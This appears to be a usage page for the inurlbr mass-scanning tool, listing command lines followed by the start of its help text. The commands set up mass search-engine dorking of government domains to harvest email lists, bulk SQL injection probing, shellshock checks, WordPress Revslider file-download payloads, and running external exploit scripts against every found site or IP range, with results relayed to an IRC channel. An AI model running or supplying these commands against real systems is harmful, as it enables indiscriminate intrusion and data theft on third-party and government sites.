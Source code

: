 ```properties
  
inurlbr --dork 'site:.gov.br email (gmail|yahoo|hotmail) ext:txt' -s urls.txt -u
 
inurlbr --dork 'site:gov.bo' -s govs.txt --exploit-all-id  1,2,6  
 
inurlbr --dork 'site:.uk' -s uk.txt --user-agent  'Mozilla/5.0 (compatible; U; ABrowse 0.6; Syllable) AppleWebKit/420+ (KHTML, like Gecko)' 
 
inurlbr --dork-file 'dorksSqli.txt' -s govs.txt --exploit-all-id  1,2,6 
 
inurlbr --dork-file 'dorksSqli.txt' -s sqli.txt --exploit-all-id  1,2,6  --irc 'irc.rizon.net#inurlbrasil'   
  
inurlbr --dork 'inurl:"cgi-bin/login.cgi"' -s cgi.txt --ifurl 'cgi' --command-all 'php xplCGI.php _TARGET_'  
 
inurlbr --target 'http://target.com.br' -o cancat_file_urls_find.txt -s output.txt -t 4
  
inurlbr --target 'http://target.com.br' -o cancat_file_urls_find.txt -s output.txt -t 4 --exploit-get "?´'%270x27;"
  
inurlbr --target 'http://target.com.br' -o cancat_file_urls_find.txt -s output.txt -t 4 --exploit-get "?pass=1234" -a '<title>hello! admin</title>'
  
inurlbr --target 'http://target.com.br' -o cancat_file_urls_find_valid_cod-200.txt -s output.txt -t 5
  
inurlbr --range '200.20.10.1,200.20.10.255' -s output.txt --command-all 'php roteador.php _TARGETIP_'  
 
inurlbr --range-rad '1500' -s output.txt --command-all 'php roteador.php _TARGETIP_'  
 
inurlbr --dork-rad '20' -s output.txt --exploit-get "?´'%270x27;" -q 1,2,6,4,5,9,7,8  
 
inurlbr --dork-rad '20' -s output.txt --exploit-get "?´'%270x27;" -q 1,2,6,4,5,9,7,8   --pr
 
inurlbr --dork-file 'dorksCGI.txt' -s output.txt -q 1,2,6,4,5,9,7,8   --pr --shellshock
 
inurlbr --dork-file 'dorks_Wordpress_revslider.txt' -s output.txt -q 1,2,6,4,5,9,7,8  --sub-file 'xpls_Arbitrary_File_Download.txt'  
```


## Help
```properties

     ██░ ██    ▓█████     ██▓        ██▓███  
    ▓██░ ██▒   ▓█   ▀    ▓██▒       ▓██░  ██▒
    ▒██▀▀██░   ▒███      ▒██░       ▓██░ ██▓▒
    ░▓█ ░██    ▒▓█  ▄    ▒██░       ▒██▄█▓▒ ▒
    ░▓█▒░██▓   ░▒████▒   ░██████▒   ▒██▒ ░  ░
    ▒ ░░▒░▒   ░░ ▒░ ░   ░ ▒░▓  ░   ▒▓▒░ ░  ░
    ▒ ░▒░ ░    ░ ░  ░   ░ ░ ▒  ░   ░▒ ░     
    ░  ░░ ░      ░        ░ ░      ░░       
    ░  ░  ░      ░  ░       ░  ░            
                                         
-h
--help   Alternative long length help command.
--ajuda  Command to specify Help.
--info   Information script.
--update Code update.    
-q       Choose which search engine you want through [1...24] / [e1..6]]:
     [options]:
```